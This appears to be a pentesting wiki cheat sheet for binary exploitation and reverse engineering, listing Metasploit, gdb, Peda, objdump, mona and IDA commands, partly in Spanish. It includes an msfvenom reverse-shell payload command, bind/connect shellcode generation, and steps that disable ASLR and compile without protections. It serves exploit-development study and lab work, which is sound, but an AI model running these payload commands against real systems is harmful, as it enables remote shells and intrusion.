 # Exploiting Tools

## Metasploit

```text
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```

### Shellcodes

```text
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```

## GDB

### Install:

apt-get install gdb

### Parameters:

**-q** --&gt; No muestra mierda inicial al ejecutar gdb  
**-x &lt;file&gt;** --&gt; le pasas un archivo con instrucciones de gdb que ejecutará al inicio  
**-p &lt;pid&gt;** --&gt; Attach to process

#### Instructions

&gt; **disassemble main** --&gt; Dissasemble the function  
&gt; **disassemble 0x12345678**  
&gt; **set disassembly-flavor intel**  
&gt; **set follow-fork-mode child/parent** --&gt; Follow created process  
&gt; **p system** --&gt; Find the address of the system function  
&gt; **help**  
&gt; **quit**

&gt; **br func**  --&gt; Add breakpoint to function  
&gt; **br \*func+23**  
&gt; **br \*0x12345678  
&gt; del NUM** --&gt; Delete that number of br  
&gt; **watch EXPRESSION** --&gt; Break if the value changes

**&gt; run** --&gt; Execute  
**&gt; start** --&gt; Start and break in main  
&gt; **n/next** --&gt; Execute next instruction \(no inside\)  
&gt; **s/step** --&gt; Execute next instruction  
&gt; **c/continue** --&gt; Continue until next breakpoint

&gt; **set $eip = 0x12345678** --&gt; Change value of $eip  
&gt; **info functions** --&gt; Info abount functions  
&gt; **info functions func** --&gt; Info of the funtion  
&gt; **info registers** --&gt; Value of the registers  
&gt; **bt** --&gt; Stack  
&gt; **bt full** --&gt; Detailed stack

&gt; **print variable**  
&gt; **print 0x87654321 - 0x12345678** --&gt; Caculate  
&gt; **examine o/x/u/t/i/s dir\_mem/reg/puntero** --&gt; Shows content in octal/hexa/10/bin/instruction/ascii

* **x/o 0xDir\_hex**
* **x/2x $eip** --&gt; 2Words from EIP
* **x/2x $eip -4** --&gt;  $eip - 4
* **x/8xb $eip** --&gt; 8  bytes \(b-&gt; byte, h-&gt; 2bytes, w-&gt; 4bytes, g-&gt; 8bytes\)
* **i r eip** --&gt; Value of $eip
* **x/w pointer** --&gt; Value of the pointer
* **x/s pointer** --&gt; String pointed by the pointer
* **x/xw &pointer** --&gt; Address where the poiniter is located
* **x/i $eip** —&gt; Instructions of the EIP

### Peda

**shellcode generate** x86/linux bindport 5555 127.0.0.1  
**shellcode generate** x86/linux connect 5555 127.0.0.1  
**checksec** --&gt; Check protections  
**searchmem /bin/sh** --&gt; Find that string \(/bin/sh\) inside the memory

### GDB server

gdbserver --multi 0.0.0.0:23947 \(in IDA you have to fill the absolute path of the executable in the Linux machine and in the Windows machine\)

## GCC

**gcc -fno-stack-protector -D\_FORTIFY\_SOURCE=0 -z norelro -z execstack 1.2.c -o 1.2** --&gt; Compile without protections  
**-o** --&gt; Output  
**-g** --&gt; Save code \(GDB will be able to see it\)  
**echo 0 &gt; /proc/sys/kernel/randomize\_va\_space** --&gt; To deactivate the ASLR in linux

**To compile a shellcode:  
nasm -f elf assembly.asm** --&gt; return a ".o"  
**ld assembly.o -o shellcodeout** --&gt; Executable

## Objdump

**-d** --&gt; Disassemble executable sections \(see opcodes of a compiled shellcode, find ROP Gadgets, find function address...\)  
**-Mintel** --&gt; Intel sintax  
**-t** --&gt; Symbols table \(grep varBSS to get the address\)  
**-D** --&gt; Disassemble all \(address of static variable\)  
**-s -j .dtors** --&gt; Contenido de dtors  
**-s -j .got** --&gt; Contenido de got  
**-TR** --&gt; Relocations  
**ojdump -t --dynamic-relo ./exec \| grep puts** --&gt; Address of "puts" to modify in GOT  
**objdump -TR ./exec \| grep exit\(func lib\)** —&gt; Get address of all the functions inside the GOT

## Core dumps

1. Run `ulimit -c unlimited` before starting my program
2. Run `sudo sysctl -w kernel.core_pattern=/tmp/core-%e.%p.%h.%t`
3. sudo gdb --core=&lt;path/core&gt; --quiet

## More

**ldd executable \| grep libc.so.6** --&gt; Address \(if ASLR, then this change every time\)  
**for i in \`seq 0 20\`; do ldd &lt;Ejecutable&gt; \| grep libc; done** --&gt; Loop to see if the address changes a lot  
**readelf -s /lib/i386-linux-gnu/libc.so.6 \| grep system** --&gt; Offset of "system"  
**strings -a -t x /lib/i386-linux-gnu/libc.so.6 \| grep /bin/sh** --&gt; Offset of "/bin/sh"

**strace executable** --&gt; Functions called by the executable  
**rabin2 -i ejecutable --&gt;** Address of all the functions

**/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb --length 1000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb --length 1000 --query 1Ad2**

## **Inmunity debugger**

```text
!mona modules    #Get protections, look for all false except last one (Dll of SO)
!mona find -s "\xff\xe4" -m name_unsecure.dll   #Search for opcodes insie dll space (JMP ESP)
```

## IDA

### Debugging in remote linux

Inside the IDA folder you can find binaries that can be used to debug a binary inside a linux. To do so move the binary _linux\_server_ or _linux\_server64_ inside the linux server and run it nside the folder that contains the binary:

```text
./linux_server64 -Ppass
```

 Then, configure the debugger: Debugger \(linux remote\) --&gt; Proccess options...:

![](../../.gitbook/assets/image%20%28112%29.png)

### **Delphi binaries**

I you have to reverse a Delphi binary I would suggest you tu use the IDA plugin [https://github.com/Coldzer0/IDA-For-Delphi](https://github.com/Coldzer0/IDA-For-Delphi)\*\*\*\*

Just press **ATL+f7** \(import python plugin in IDA\) and select the python plugin.

This plugin will execute the binary and resolve functoin names dynamically att the start of the debugging. After starting the debugging press again the Start button \(the green one or f9\) and a breakpoint will hit in the begining of the real code.

It is also very interesting because if you press a boton in the graphic application the debugger will stop in the function executed by that bottom.

### Golang binaries

I you have to reverse a Golang binary I would suggest you tu use the IDA plugin [https://github.com/sibears/IDAGolangHelper](https://github.com/sibears/IDAGolangHelper)

Just press **ATL+f7** \(import python plugin in IDA\) and select the python plugin.

This will resolve the names of the functions.


